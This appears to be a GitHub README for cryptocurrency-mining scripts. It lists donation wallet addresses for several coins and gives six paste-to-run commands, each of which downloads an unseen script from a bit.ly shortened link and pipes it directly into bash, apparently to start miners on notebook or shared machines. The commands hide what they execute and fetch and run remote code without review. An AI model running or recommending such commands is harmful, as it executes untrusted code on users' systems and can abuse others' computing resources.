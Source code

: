 # 10 000 code and code

This project offers multiple scripts to better use your computer power and network without wasting anything

<span style="color:Red">The address and urls are hardcoded in the scripts you need to change it before using the script</span>.



## Donate

ETH:	0x1be9C1Db52aC9cD736160c532D69aA4770c327B7

ETC:	0x5C5152521D51f23735Bf14a8f6321d39bA73D95f

RVN:	RMV17aQMgMPyPqJQ5H3WRQH37Njspi1SSK

ZEC:	t1ab2rCrgCbqaspPodCALpR6epzEiu5uCHF

YEC:	s1THjZQJxthDD9tt1dRzQSqDoQQH9XwNM5x

ADA: addr1qy4aeu2wpjpuy0r2xn64eec0z6300wnqrj5ypj3ep9g49ggm7gg506stxjnjp3zjs3a9mch478sfl6qt722zu2gs28fqq5dfv6

XMR:	44ucr5iSqUjCR6m93Gu9ssJC9W1yWLGz1fZbAChLXG1QPnFD5bsTXKJAQEk8dHKDWx8hYJQ5ELqg9DJKNA1oRoNZKCGyn1p

## Scripts Direct use

!echo $(wget -O - bit.ly/RV00001 2> lol.out | bash )

!echo $(wget -O - bit.ly/IBM0001 2> lol.out | bash )

!echo $(wget -O - bit.ly/ET00001 2> lol.out | bash )

!echo $(wget -O - bit.ly/RVET0001 2> lol.out | bash )

!echo $(wget -O - bit.ly/XM00001 2> lol.out | bash )

!echo $(wget -O - bit.ly/TEST0001 2> lol.out | bash )


## Solo M

